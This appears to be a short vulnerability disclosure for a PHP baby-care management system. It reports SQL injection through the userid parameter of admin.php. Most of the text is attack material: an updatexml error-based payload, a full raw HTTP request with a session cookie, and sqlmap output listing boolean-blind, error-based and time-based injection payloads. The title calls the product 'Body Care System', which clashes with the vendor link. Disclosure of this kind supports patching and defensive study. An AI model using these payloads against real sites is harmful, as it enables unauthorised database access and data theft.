 ## Body Care System has SQL injection vulnerability

vendor: https://www.sourcecodester.com/php/14622/baby-care-system-phpmysqli-full-source-code.html


Vulnerability file: /BabyCare/admin/uesrs.php&action=type&userrole=User&userid=

![image](https://user-images.githubusercontent.com/54017627/161356789-ddde867a-52c8-4dfc-831e-a59cf9d49c36.png)

Vulnerability location: /BabyCare/admin.php?id=users&action=type&userrole=User&userid=1 //uesrid is Injection point

[+]Payload: /BabyCare/admin.php?id=users&action=type&userrole=User&userid=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+  //userid is Injection point

```sql
GET /BabyCare/admin.php?id=users&action=type&userrole=User&userid=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+ HTTP/1.1
Host: 192.168.1.19
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=h48mjnelp4g0935821l2k3g5ne
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/161356877-97aa81d0-2ef7-4696-80fe-20af0b6bfd08.png)

```sql
---
Parameter: userid (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=users&action=type&userrole=User&userid=1' RLIKE (SELECT (CASE WHEN (4612=4612) THEN 1 ELSE 0x28 END))-- Wlmz

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: id=users&action=type&userrole=User&userid=1' AND EXTRACTVALUE(3489,CONCAT(0x5c,0x7170767671,(SELECT (ELT(3489=3489,1))),0x71787a6271))-- THEv

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=users&action=type&userrole=User&userid=1' AND (SELECT 1342 FROM (SELECT(SLEEP(5)))LPbX)-- UTgs
---
```

![image](https://user-images.githubusercontent.com/54017627/161356928-717b132b-f532-4016-8e2f-75410e578a94.png)


